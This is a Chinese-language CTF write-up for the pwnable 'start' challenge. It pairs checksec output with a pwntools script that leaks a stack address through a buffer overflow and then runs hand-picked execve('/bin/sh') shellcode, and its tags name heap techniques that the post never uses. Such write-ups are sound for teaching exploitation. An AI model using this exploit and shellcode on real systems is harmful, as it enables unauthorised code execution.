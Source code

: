 ```yaml
---
title: 'pwnable_start'
date: 2024-01-25 13:00:00 +0800
categories: [ctf,pwn]
tags: [uaf,malloc_hook,unsortbin_leaklibc]
---
```

- `bss`

![image-20240125160222828](../assets/img/old_imgs/image-20240125160222828.png)

```shell
bamuwe@qianenzhao:~$ checksec start
[*] '/home/bamuwe/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

保护全关,但不能看伪代码,只能看汇编

思路:

1. 通过溢出泄露`buf(输入数据)`地址
2. 跳转到`buf`地址,写入`shellcode`
3. 跳转到`buf`地址,执行`shellcode`拿到`shell`

```python
from pwn import *
context.log_level = 'debug'
context.arch = 'i386'
context.os = 'linux'
io = gdb.debug('./start')
padding = b'A'*0x14
buf_addr = 0x8048087
shellcode=b"\x31\xc0\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xb0\x0b\xcd\x80"

def leak():
    global buf_addr
    payload = padding+p32(buf_addr)

    io.sendafter( b"Let's start the CTF:",payload)
    buf_addr = u32(io.recv(4))
    print('buf_addr->',hex(buf_addr))
    return 0

def pwn():
    global shellcode
    payload = padding+p32(buf_addr+0x14)+shellcode
    io.send(payload)
    return 0

leak()
pwn()
io.interactive()
```

>需要注意的是,这里`buf`空间长度不足,所以需要另外找一个`shellcode`而不能使用直接生成的`shellcode`,直接生成的`shellcode`长度会在$21~60$之间

